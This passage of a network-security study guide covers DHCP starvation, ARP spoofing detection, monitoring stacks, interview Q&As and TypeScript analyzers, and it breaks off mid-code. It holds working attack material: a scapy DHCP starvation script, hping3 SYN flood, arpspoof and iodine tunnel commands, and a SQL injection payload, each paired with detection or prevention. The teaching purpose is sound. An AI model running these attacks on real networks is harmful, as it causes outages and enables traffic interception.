**Goal:** Exhaust all DHCP pool addresses so new clients cannot connect.

```bash
# YERSINIA → DHCP starvation tool
yersinia -I
# Interactive mode → Select DHCP → Launch starvation attack
# Expected: 10,000 DHCP DISCOVER packets in seconds

# Manual using scapy (Python)
cat > dhcp-starvation.py << 'PYEOF'
from scapy.all import *
import random

def random_mac():
    return ":".join([f"{random.randint(0,255):02x}" for _ in range(6)])

for i in range(1000):
    mac = random_mac()
    client_mac = mac.replace(":", "")
    
    # DHCP Discover
    pkt = Ether(src=mac, dst="ff:ff:ff:ff:ff:ff") / \
          IP(src="0.0.0.0", dst="255.255.255.255") / \
          UDP(sport=68, dport=67) / \
          BOOTP(chaddr=client_mac, xid=random.randint(1,100000)) / \
          DHCP(options=[("message-type", "discover"), "end"])
    
    sendp(pkt, iface="eth0", verbose=0)
    print(f"Sent DHCP Discover for MAC {mac}")

# After exhaustion: DHCP server has no addresses → all requests fail
PYEOF
```

**Detection:**

```bash
# Monitor DHCP server logs for high request rate
tail -f /var/log/dhcp-server/dhcpd.log | grep DHCPDISCOVER | wc -l
# Expected: 1000+ in 60 seconds (baseline: ~1-10/minute)

# Check pool utilization
cat /var/lib/dhcp/dhcpd.leases | wc -l
# Expected: 1000+ leases (normally 50-200)
```

**Prevention: DHCP Snooping (Cisco):**

```bash
# Rate limit DHCP requests per port
interface GigabitEthernet0/1
    ip dhcp snooping limit rate 5   # max 5 DHCP packets/second

# Log violations
ip dhcp snooping log mismatch
```

### 23.2 ARP Spoofing Detection → Detailed

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/23-2-arp-spoofing-detection-detailed-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/23-2-arp-spoofing-detection-detailed-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/23-2-arp-spoofing-detection-detailed-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# 1. Passive detection using arpwatch
arpwatch -i eth0 -f /var/arpwatch/arp.dat
# Monitor /var/log/arpwatch.log:
# changed ethernet address (00:11:22:33:44:55 -> AA:BB:CC:DD:EE:FF) 192.168.1.1
# new station (192.168.1.50) AA:BB:CC:DD:EE:FF
# flip flop (192.168.1.1) 00:11:22:33:44:55 -> AA:BB:CC:DD:EE:FF -> 00:11:22:33:44:55

# 2. Active detection using Python/scapy
cat > detect-arp.py << 'PYEOF'
from scapy.all import *
import sys

def detect_arp(pkt):
    if ARP in pkt and pkt[ARP].op == 2:  # ARP reply
        ip = pkt[ARP].psrc
        mac = pkt[ARP].hwsrc
        
        # Check against known IP-MAC mapping
        known = {
            "192.168.1.1": "00:11:22:33:44:55",
            "192.168.1.100": "66:77:88:99:AA:BB"
        }
        
        if ip in known and known[ip] != mac:
            print(f"[ALERT] ARP Spoof! IP {ip} claimed by {mac}, expected {known[ip]}")

if __name__ == "__main__":
    sniff(iface="eth0", prn=detect_arp, filter="arp", store=0)
PYEOF

# Run
python3 detect-arp.py
# Expected: [ALERT] ARP Spoof! IP 192.168.1.1 claimed by AA:BB:CC:DD:EE:FF, expected 00:11:22:33:44:55

# 3. Static ARP entry (prevention for critical devices)
arp -s 192.168.1.1 00:11:22:33:44:55

# 4. Switch protection → Dynamic ARP Inspection (DAI)
ip arp inspection vlan 10,20
ip arp inspection validate src-mac dst-mac ip
interface GigabitEthernet0/1
    ip arp inspection trust        # for legitimate router/switch ports
    ip arp inspection limit rate 15 # 15 pps max
```

---

## Section 24: Network Security Monitoring (NSM) Stack

### 24.1 Full NSM Architecture

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/24-1-full-nsm-architecture-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/24-1-full-nsm-architecture-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/24-1-full-nsm-architecture-sticky.svg" target="_blank" rel="noopener">
  
</a>


```
[Network TAP / Mirror Port]
        │
        ▼
[Packet Broker] (filter, aggregate, load balance)
        │
        ├────────────┬────────────┬─────────────┐
        ▼            ▼            ▼             ▼
[Suricata IDS]  [Zeek NSM]   [tcpdump]    [NetFlow/IPFIX]
   (alerts)    (logs/events) (full PCAP)  (flow records)
        │            │            │             │
        └────────────┴────────────┴─────────────┘
                        │
                        ▼
          [Data Lake: Elasticsearch / S3]
                        │
                        ▼
          [Kibana / Grafana / Jupyter]
```

**Deployment commands:**

```bash
# Configure port mirroring on Cisco switch
monitor session 1 source interface Gi1/0/1 - 24
monitor session 1 destination interface Gi1/0/25

# Receive mirrored traffic on NSM server
ip link add name eth0-mirror type bridge
ip link set eth0-mirror up
# Suricata reads from af-packet interface

# NetFlow export (softflowd)
softflowd -i eth0 -n collector.local:2055 -t maxlife=3600
```

### 24.2 Security Onion → All-in-One NSM

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/24-2-security-onion-all-in-one-nsm-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/24-2-security-onion-all-in-one-nsm-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/24-2-security-onion-all-in-one-nsm-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Install Security Onion
# https://docs.securityonion.org/en/latest/installation/

# Check cluster status
sudo so-status
# Expected:
# Elasticsearch: green (all shards active)
# Suricata: running (3.2 million alerts/sec capacity)
# Zeek: running (500k connections/sec)
# Kibana: running (https://so-manager:443)
# Wazuh: running (2,500 agents connected)

# Query past hour alerts
sudo so-query -q 'event_type:alert AND timestamp:[now-1h TO now]' | head -20

# Extract PCAP for specific connection
sudo so-pcap -d 'host 10.0.0.5 and port 443'
# Writes pcap file to /nsm/pcap/out/
```

---

## Section 25: Extended Interview Corner → Advanced Q&As

### Q16: How does IPsec tunnel mode differ from transport mode? Show packet structure.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-ipsec-tunnel-mode-differ-from-transport-mode-show-packet-structure-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-ipsec-tunnel-mode-differ-from-transport-mode-show-packet-structure-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-ipsec-tunnel-mode-differ-from-transport-mode-show-packet-structure-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A16:** In transport mode, only the payload (TCP segment, UDP datagram) is encrypted. The original IP header is visible. In tunnel mode, the entire original IP packet is encrypted and encapsulated in a new IP packet with new IP headers. Tunnel mode is used for site-to-site VPNs (gateway-to-gateway). Transport mode is used for end-to-end (host-to-host).

Transport mode packet:
```
[IP Header (original)] [ESP Header] [TCP Header] [Payload] [ESP Trailer] [Auth]
                              ← encrypted →
```

Tunnel mode packet:
```
[IP Header (new)] [ESP Header] [IP Header (original)] [TCP] [Payload] [ESP Trailer] [Auth]
                                          ← encrypted →
```

### Q17: What is the difference between a reverse proxy and a forward proxy in network security?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-a-reverse-proxy-and-a-forward-proxy-in-network-security-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-a-reverse-proxy-and-a-forward-proxy-in-network-security-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-a-reverse-proxy-and-a-forward-proxy-in-network-security-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A17:** A forward proxy sits between clients and the internet. Clients configure their browser/app to use the proxy. The proxy fetches content on behalf of clients, providing anonymity, content filtering, and caching. Used for outbound traffic control (employees → internet). A reverse proxy sits between the internet and servers. Clients connect to the reverse proxy which forwards to backend servers. Used for inbound traffic control (internet → web servers), providing load balancing, SSL termination, WAF, and server anonymity. Nginx is commonly used as both.

### Q18: Explain the TLS 1.3 handshake and its security improvements over TLS 1.2.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-tls-1-3-handshake-and-its-security-improvements-over-tls-1-2-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-tls-1-3-handshake-and-its-security-improvements-over-tls-1-2-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-tls-1-3-handshake-and-its-security-improvements-over-tls-1-2-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A18:** TLS 1.3 handshake (1-RTT for new, 0-RTT for resumed):

```
Client                          Server
  │                                │
  │── ClientHello (key_share) ────→│
  │                                │ Server derives session key
  │←─ ServerHello + Cert + Finish ─│
  │ (server handshake encrypted)    │
  │ Client derives session key      │
  │── Client Finish (encrypted) ──→│
  │←── Application Data (HTTP/2) ──│

Total: 1 round trip (vs 2 in TLS 1.2)
```

Improvements over TLS 1.2:
- Removed weak ciphers (RC4, DES, CBC-mode)
- Removed compression (CRIME attack)
- Removed renegotiation (DoS vector)
- Removed static RSA key exchange (no PFS)
- Mandatory forward secrecy (ECDHE only)
- Encrypted Server Certificate (privacy)
- 0-RTT resumption (fast reconnect, but replay risk)

### Q19: What is the role of entropy in detecting DNS tunneling?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-role-of-entropy-in-detecting-dns-tunneling-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-role-of-entropy-in-detecting-dns-tunneling-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-role-of-entropy-in-detecting-dns-tunneling-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A19:** DNS tunneling encodes data in DNS query subdomains. Normal DNS queries have subdomains matching dictionary words or predictable patterns (e.g., "www", "mail", "api"). Tunneling tools encode binary data as base32/base64, producing high-entropy subdomain labels (e.g., "3f7a2b9c1d5e8f0a.evil.com"). Shannon entropy for normal subdomains: 2.0-3.5 bits/char. For tunneling: 4.5-5.5 bits/char. Detection threshold: entropy > 4.0 for subdomains > 30 characters. Example using Python:

```python
import math, collections
def shannon_entropy(s):
    freq = collections.Counter(s)
    return -sum(c/len(s) * math.log2(c/len(s)) for c in freq.values())

normal = shannon_entropy("www")  # ~1.5
tunnel = shannon_entropy("3f7a2b9c1d5e8f0a")  # ~4.0
```

### Q20: How does SQL injection bypass a packet filter firewall but not a WAF?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-sql-injection-bypass-a-packet-filter-firewall-but-not-a-waf-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-sql-injection-bypass-a-packet-filter-firewall-but-not-a-waf-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-sql-injection-bypass-a-packet-filter-firewall-but-not-a-waf-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A20:** A packet filter inspects Layer 3/4 headers only (IP, port, protocol). It never looks at the HTTP payload. A SQL injection payload like `' OR 1=1 --` is inside the HTTP request body, invisible to a packet filter. A WAF inspects the full HTTP request (URI, headers, body). It can detect SQL injection patterns using regex rules (e.g., ModSecurity rule 942100 matching `(?i:(?:select|union|insert|delete|update|drop|alter).*)`) and block the request before it reaches the web application server.

### Q21: Describe the full flow of a DDoS mitigation using Cloudflare.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-full-flow-of-a-ddos-mitigation-using-cloudflare-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-full-flow-of-a-ddos-mitigation-using-cloudflare-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-full-flow-of-a-ddos-mitigation-using-cloudflare-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A21:** (1) Traffic arrives at Cloudflare's nearest data center (anycast). (2) Layer 3/4 mitigation drops packets with invalid headers, SYN floods are challenged, and amplification attacks are scrubbed. (3) Layer 7 mitigation: JS challenge verifies browser support, CAPTCHA challenges suspicious IPs, rate limiting per IP/ASN/country, WAF checks HTTP requests for attack signatures, bot management scores each request (1 = human, 100 = automated). (4) Clean traffic is proxied to the origin server over a dedicated tunnel (Argo Tunnel/Cloudflare Tunnel) → the origin IP is never exposed. (5) Analytics provide real-time visibility into dropped vs passed traffic. (6) Under extreme attack (>1 Tbps), Cloudflare's global network distributes the load across 300+ data centers.

### Q22: What is the difference between 802.1X and MAC Authentication Bypass (MAB)?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-802-1x-and-mac-authentication-bypass-mab-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-802-1x-and-mac-authentication-bypass-mab-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-difference-between-802-1x-and-mac-authentication-bypass-mab-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A22:** 802.1X is a standard for port-based authentication using EAP. The supplicant (client) must support 802.1X (built into modern OS). The client presents credentials (user/password, certificate) to the authenticator (switch/AP), which forwards to RADIUS. MAB is a fallback for devices that do not support 802.1X (printers, IoT sensors, cameras). The switch authenticates based on the device's MAC address against a MAC whitelist on the RADIUS server. MAB is significantly less secure: MAC addresses can be spoofed trivially, and there is no encryption or credential verification.

### Q23: Explain the NIST SP 800-207 zero trust architecture core components.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-nist-sp-800-207-zero-trust-architecture-core-components-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-nist-sp-800-207-zero-trust-architecture-core-components-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-nist-sp-800-207-zero-trust-architecture-core-components-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A23:** NIST SP 800-207 defines:
1. **Policy Engine (PE):** The brain → makes allow/deny decisions based on identity, device health, and context. Uses OPA or custom policy.
2. **Policy Administrator (PA):** Generates session tokens, handles authentication. Issues JWT or mTLS certificates.
3. **Policy Enforcement Point (PEP):** Gate → enforces the decision. Can be a reverse proxy, API gateway, or network firewall.
4. **Identity Provider (IdP):** Authenticates users (Keycloak, Azure AD).
5. **Device Agent:** Reports device health (osquery, MDM agent).
6. **Data Plane:** Encrypts all traffic end-to-end (mTLS, WireGuard).

Communication flow: User → PEP (requests access) → PE evaluates (identity + device + context) → PA issues token → PEP allows access.

### Q24: How does the WPA3 SAE handshake prevent offline dictionary attacks?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-the-wpa3-sae-handshake-prevent-offline-dictionary-attacks-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-the-wpa3-sae-handshake-prevent-offline-dictionary-attacks-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/how-does-the-wpa3-sae-handshake-prevent-offline-dictionary-attacks-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A24:** WPA2 uses a 4-Way Handshake where the PMK is directly derived from the PSK. An attacker captures the 4 messages and cracks the PSK offline. WPA3 SAE (Dragonfly handshake) uses a zero-knowledge proof: both parties prove knowledge of the password without revealing it. The sequence: (1) Both parties derive a password element from the password using a hash-to-curve function. (2) Each generates an ephemeral private key and sends a commitment (hash of scalar + element). (3) Each sends a confirm value (proof of knowledge). (4) Both parties independently derive the same PMK. Without the password, an attacker cannot compute the correct confirm value. Each guess requires a fresh SAE exchange with the real AP → offline brute force is impossible.

### Q25: What is the TCP three-way handshake and how does it enable SYN flood attacks?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-tcp-three-way-handshake-and-how-does-it-enable-syn-flood-attacks-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-tcp-three-way-handshake-and-how-does-it-enable-syn-flood-attacks-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-is-the-tcp-three-way-handshake-and-how-does-it-enable-syn-flood-attacks-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A25:** The TCP three-way handshake establishes a connection:
1. Client sends SYN (seq=x)
2. Server responds with SYN-ACK (seq=y, ack=x+1)
3. Client sends ACK (seq=x+1, ack=y+1)

In a SYN flood, the attacker sends thousands of SYN packets with spoofed source IPs. The server allocates memory (TCB → Transmission Control Block) for each half-open connection and sends SYN-ACK to the spoofed IP (which never responds). The backlog queue fills (typically 1024 entries). The server cannot accept new connections. Mitigation: SYN cookies encode connection info in the SYN-ACK sequence number (no memory allocated until ACK received) → the server only allocates TCB on ACK completion.

### Q26: Compare Snort and Suricata rule languages. When would you use each?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/compare-snort-and-suricata-rule-languages-when-would-you-use-each-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/compare-snort-and-suricata-rule-languages-when-would-you-use-each-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/compare-snort-and-suricata-rule-languages-when-would-you-use-each-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A26:** Both support the same rule syntax (Snort rules work in Suricata). Key differences:
- **Performance:** Suricata is multi-threaded, Snort is single-threaded. Suricata handles 10+ Gbps on modern hardware; Snort struggles above 2-3 Gbps.
- **Protocol parsing:** Suricata has built-in HTTP, TLS, DNS, SMB, SSH protocol parsers (application-layer events). Snort relies on PCRE for application detection.
- **File extraction:** Suricata can extract files from HTTP, SMB, SMTP streams natively.
- **Output:** Suricata produces structured JSON (eve.json) for ELK; Snort uses syslog-like format.
- **Use case:** Use Snort for small networks (<1 Gbps) or if Snort rules are your standard. Use Suricata for high-throughput, multi-tenant, or when deep protocol inspection is needed.

### Q27: Explain how BGP route leaks happen and the difference from BGP hijacking.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-how-bgp-route-leaks-happen-and-the-difference-from-bgp-hijacking-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-how-bgp-route-leaks-happen-and-the-difference-from-bgp-hijacking-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-how-bgp-route-leaks-happen-and-the-difference-from-bgp-hijacking-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A27:** BGP hijacking is malicious → an unauthorized AS deliberately announces prefixes it does not own (e.g., Pakistan Telecom announcing YouTube's prefix). BGP route leaks are accidental → a misconfigured AS announces learned routes to other peers when it should only announce its own. Example: AS A learns route to prefix P from its upstream, then announces P to AS B (its other peer) as if AS A owns P. AS B propagates P, causing traffic destined for P to be routed through AS A first. Route leaks are typically unintentional configuration errors. Both are mitigated by prefix filtering, max-prefix limits, and RPKI.

### Q28: Describe the contents of the Snort/Suricata rule header and options.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-contents-of-the-snort-suricata-rule-header-and-options-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-contents-of-the-snort-suricata-rule-header-and-options-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/describe-the-contents-of-the-snort-suricata-rule-header-and-options-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A28:** Snort rule header: `[action] [protocol] [src_ip] [src_port] -> [dst_ip] [dst_port]`

Actions: alert (log alert), log (log packet), pass (ignore), drop (IPS: block + log), reject (IPS: block + RST/ICMP).

Options (partial list):
- `msg:` → Alert message
- `sid:` → Unique rule ID (Snort: &lt;1M reserved, 1M+ custom; Suricata: 2M+ custom)
- `rev:` → Revision number
- `classtype:` → Attack category (trojan-activity, attempted-admin, web-application-attack)
- `reference:` → External reference (cve, url, arachnids)
- `content:` → Byte pattern matching (`content:"|AABB|"` for hex, `content:"text"` for ASCII)
- `pcre:` → Perl-compatible regex
- `flow:` → to_server, from_server, established, stateless
- `threshold:` → Alert frequency control (type both/track by_src/count 5/seconds 60)
- `dsize:` → Payload size check
- `fileext:` → File extension match (Suricata)
- `tls.sni:` → TLS SNI match (Suricata)
- `metadata:` → Custom key-value pairs

### Q29: What network security controls would you implement at each layer of the OSI model?

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-network-security-controls-would-you-implement-at-each-layer-of-the-osi-model-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-network-security-controls-would-you-implement-at-each-layer-of-the-osi-model-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/what-network-security-controls-would-you-implement-at-each-layer-of-the-osi-model-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A29:**
- **L1 (Physical):** Locked server rooms, CCTV, port security, tamper-proof cabling
- **L2 (Data Link):** 802.1X, DHCP snooping, Dynamic ARP Inspection, MAC port security, VLANs, STP BPDU guard
- **L3 (Network):** Ingress/egress filtering (BCP 38), IPsec, ACLs, uRPF, VRF
- **L4 (Transport):** Stateful firewall, SYN cookies, TCP timestamps, conntrack limits
- **L5-6 (Session/Presentation):** TLS 1.3, mTLS, session timeout, re-authentication
- **L7 (Application):** WAF, RASP, API gateway rate limiting, input validation, Bot management

### Q30: Explain the full Stuxnet attack chain and why it was so significant.

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-full-stuxnet-attack-chain-and-why-it-was-so-significant-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-full-stuxnet-attack-chain-and-why-it-was-so-significant-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/explain-the-full-stuxnet-attack-chain-and-why-it-was-so-significant-sticky.svg" target="_blank" rel="noopener">
  
</a>


**A30:** Stuxnet (2010) was the first known cyber weapon → a nation-state (US/Israel) attack on Iranian nuclear centrifuges. Attack chain: (1) USB infection via social engineering or supply chain compromise. (2) Exploit MS10-046 (LNK vulnerability) for auto-execution. (3) MS10-061 print spooler escalation for SYSTEM privileges. (4) MS08-067 (Server Service) for network propagation. (5) Spread across air-gapped network via USB and network shares. (6) Target discovery: looks for Siemens Step 7 software on Windows. (7) Rootkit: hides modified PLC code from operators. (8) PLC sabotage: two attack profiles → rapid frequency oscillation destroys centrifuges; long-duration frequency changes accelerate bearing wear. (9) Man-in-the-middle: replays normal sensor data while centrifuges self-destruct. Operators see "normal operations" as IR-1 centrifuges tear themselves apart. Four zero-day exploits used (unprecedented). Significance: proved air-gaps are not absolute, changed international cyber warfare policy, demonstrated kinetic effects via cyber means, led to NIST SP 800-82 for industrial control system security.

---

## Section 26: Final Comprehensive Reference → All Tools in One Lab

### 26.1 Complete Network Security Test Lab

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/26-1-complete-network-security-test-lab-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/26-1-complete-network-security-test-lab-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/26-1-complete-network-security-test-lab-sticky.svg" target="_blank" rel="noopener">
  
</a>


```bash
# Test lab architecture:
# Kali (attacker) ──eth0── switch ──eth0── Ubuntu Server (target)
# 192.168.1.100           |          192.168.1.1
#                   eth0
#                        ── Internet (simulated via iptables NAT)

# 1. Reconnaissance
nmap -sS -sV -O -A 192.168.1.1

# 2. Vulnerability scan
nmap --script vuln 192.168.1.1

# 3. SYN flood test
hping3 -S -p 80 --flood 192.168.1.1

# 4. Detect SYN flood (on target)
tcpdump -i eth0 "tcp[tcpflags] & (tcp-syn) != 0 and tcp[tcpflags] & (tcp-ack) == 0" -c 1000

# 5. ARP spoofing (from attacker)
arpspoof -i eth0 -t 192.168.1.1 -r 192.168.1.100

# 6. Detect ARP spoof (on target)
arpwatch -i eth0

# 7. Capture all traffic
tcpdump -i eth0 -w lab-capture.pcap

# 8. Analyze with Suricata
suricata -r lab-capture.pcap

# 9. View alerts
cat /var/log/suricata/eve.json | jq '. | select(.event_type=="alert") | {timestamp: .timestamp, alert: .alert.signature, src: .src_ip, dst: .dest_ip}'

# 10. DNS tunneling test
iodine -f -P password 10.0.0.1 tunnel.example.com

# 11. Detect DNS tunneling (entropy analysis)
tshark -r capture.pcap -Y "dns.qry.name" -T fields -e dns.qry.name | awk '{print length, $0}' | sort -rn | head -10
```

---

## TypeScript Implementations

### 1. Firewall Rule Analyzer

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-firewall-rule-analyzer-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-firewall-rule-analyzer-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/1-firewall-rule-analyzer-sticky.svg" target="_blank" rel="noopener">
  
</a>


The following TypeScript class implements a firewall rule analyzer that identifies security misconfigurations including shadowed rules, overly permissive rules, and duplicate entries.

```typescript
interface FirewallRule {
  sourceIp: string;
  destIp: string;
  destPort: number;
  protocol: 'tcp' | 'udp';
  action: 'allow' | 'deny';
}

class FirewallAnalyzer {
  private rules: FirewallRule[];

  constructor(rules: FirewallRule[]) {
    this.rules = rules;
  }

  analyze(): {
    openPorts: Set<string>;
    shadowedRules: FirewallRule[];
    overlyPermissive: FirewallRule[];
    recommendations: string[];
  } {
    const openPorts = new Set<string>();
    const shadowedRules: FirewallRule[] = [];
    const overlyPermissive: FirewallRule[] = [];
    const recommendations: string[] = [];

    // Check for overly permissive any-any-allow rules
    for (const rule of this.rules) {
      if (rule.sourceIp === '0.0.0.0/0' && rule.destIp === '0.0.0.0/0' && rule.action === 'allow') {
        overlyPermissive.push(rule);
        recommendations.push(
          `Rule allowing any source to any destination on port ${rule.destPort}/${rule.protocol} is overly permissive. ` +
          `Consider restricting to specific source/destination ranges.`
        );
      }
    }

    // Collect all allowed ports
    const allowedRules = this.rules.filter(r => r.action === 'allow');
    for (const rule of allowedRules) {
      openPorts.add(`${rule.destPort}/${rule.protocol.toUpperCase()}`);
    }

    // Detect shadowed rules: a deny rule placed after a broader allow is never evaluated
    for (let i = 0; i < this.rules.length; i++) {
      for (let j = i + 1; j < this.rules.length; j++) {
        if (this.rules[i].action === 'allow' && this.rules[j].action === 'deny') {
          if (this.isSupersetOrEqual(this.rules[i], this.rules[j])) {
            shadowedRules.push(this.rules[j]);
            recommendations.push(
              `Rule #${j + 1} (deny) is shadowed by earlier rule #${i + 1} (allow). ` +
              `Reorder or remove the shadowed rule to ensure intended policy.`
            );
          }
        }
      }
    }

    // Identify duplicate (redundant) rules
    const seen = new Set<string>();
    for (let i = 0; i < this.rules.length; i++) {
      const key = `${this.rules[i].sourceIp}|${this.rules[i].destIp}|${this.rules[i].destPort}|${this.rules[i].protocol}|${this.rules[i].action}`;
      if (seen.has(key)) {
        recommendations.push(`Rule #${i + 1} is a duplicate of an earlier rule — consider removing it.`);
      }
      seen.add(key);
    }

    return { openPorts, shadowedRules, overlyPermissive, recommendations };
  }

  private isSupersetOrEqual(a: FirewallRule, b: FirewallRule): boolean {
    if (a.protocol !== b.protocol) return false;
    if (a.destPort !== b.destPort) return false;
    // If rule a has a broader source than rule b, it shadows it
    return a.sourceIp === '0.0.0.0/0' || a.sourceIp === b.sourceIp;
  }
}

// Example usage
const rules: FirewallRule[] = [
  { sourceIp: '0.0.0.0/0', destIp: '10.0.1.10', destPort: 80, protocol: 'tcp', action: 'allow' },
  { sourceIp: '0.0.0.0/0', destIp: '0.0.0.0/0', destPort: 80, protocol: 'tcp', action: 'allow' },
  { sourceIp: '10.0.1.0/24', destIp: '10.0.2.10', destPort: 22, protocol: 'tcp', action: 'deny' },
  { sourceIp: '0.0.0.0/0', destIp: '10.0.2.10', destPort: 22, protocol: 'tcp', action: 'deny' },
  { sourceIp: '0.0.0.0/0', destIp: '10.0.2.10', destPort: 22, protocol: 'tcp', action: 'deny' },
];

const analyzer = new FirewallAnalyzer(rules);
const result = analyzer.analyze();

console.log('Open ports:', [...result.openPorts].join(', '));
console.log('Shadowed rules:', result.shadowedRules.length);
console.log('Overly permissive rules:', result.overlyPermissive.length);
console.log('Recommendations:');
result.recommendations.forEach(r => console.log(`  • ${r}`));
```

### 2. IDS/IPS Rule Engine

<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-ids-ips-rule-engine-handwritten.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-ids-ips-rule-engine-diagram.svg" target="_blank" rel="noopener">
  
</a>
<a href="../../../assets/images/diagrams/cyber-security/03-network-security/2-ids-ips-rule-engine-sticky.svg" target="_blank" rel="noopener">
  
</a>


This TypeScript engine simulates an intrusion detection/prevention system with rules for SYN flood detection, port scan detection, and SQL injection detection in packet payloads.

```typescript
interface Packet {
